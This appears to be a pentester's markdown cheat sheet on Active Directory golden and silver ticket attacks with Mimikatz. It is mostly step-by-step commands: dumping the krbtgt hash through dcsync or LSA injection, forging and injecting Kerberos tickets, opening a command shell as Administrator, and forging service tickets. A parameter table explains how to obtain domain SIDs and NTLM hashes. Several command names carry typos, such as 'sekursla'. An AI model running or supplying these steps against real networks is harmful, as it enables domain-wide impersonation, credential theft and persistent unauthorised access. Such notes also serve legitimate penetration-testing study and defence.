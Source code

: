 A golden ticket is a TGT crafted with the KRBTGT AD serivce's password, using which you can imitate any account on the entire AD.
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
##### Requirements
Admin level access to any user on the AD

##### Dumping the krbtgt hash
Use Mimikatz to dump the hash:
```
./mimikatz.exe
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::dcsync /user:krbtgt@DOMAIN  // Might throw an error, use the alternative version.
lsadump::lsa /inject /name:krbtgt  // If you have DC Privilege, use this. For silver ticket creation, change the name.
```
On the DC:
```
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::lsa /patch
lsadump::lsa /inject /name:krbtgt  // If you have DC Privilege, use this. For silver ticket creation, change the name.
```


##### Forging a Golden ticket
```
Kerberos::golden /user:Administrator /domain:controller.local /sid:MIMIKATZ_OUTPUT_SID /krbtgt:KRBTGT_NTLM
```
Note: the Key Distribution Center (`KDC`) will only check if the  `/user` -specified value is correct if the ticket is less than 20 minutes old. So as long as the ticket is older than 20 minutes, the specified user does not even need to exist.
`/sid`: The domain's SID (obtain via mimikatz output, or by using `Get-LocalUser -name krbtgt | select sid` and removing the last identifier (RID))
`/krbtgt`: The KRBTGT service's NTLM hash.

The ticket will now be stored in the current directory as "ticker.kirbi".

##### Exploiting using the Golden ticket
Load the ticket into memory:
```
kerberos::ptt TICKET_FILE
```
On another command prompt, check using:
```
klist // If it has a TGT, it has succeeded.
```
If you have RDP, create a remote shell:
```
misc::cmd
```
Otherwise, you can access whatever machine you want to as the Administrator via normal CMD, as long as you have the TGT active.

#### Silver tickets
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
Silver tickets are generated the same way as golden tickets, but with a few extra parameters:

```
kerberos::golden /sid:DOMAIN_SID /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:TARGET_USER_NTLM /user:TARGET_USER
```


| Argument   | Description                                         | Example                                    | Command                                                          |
| ---------- | --------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------------- |
| `/sid`     | The domain SID (the user SID without the last part) | `S-1-5-21-1987370270-658905905-1781884369` | `whoami /user`                                                   |
| `/domain`  | The domain name                                     | `corp.com`                                 | `Get-Domain`                                                     |
| `/ptt`     | Enable passing the ticket                           |                                            |                                                                  |
| `/target`  | The full name of the target machine                 | `web04.corp.com`                           | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/service` | The protocol of the SPN                             | `http`                                     | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/rc4`     | The NTLM hash of the SPN                            | `4d28cf5252d39971419580a51484ca09`         | `sekursla::logonpasswords`                                       |
| `/user`    | The user, can be any.                               | `jeff`                                     | `Get-DomainUser`                                                 |
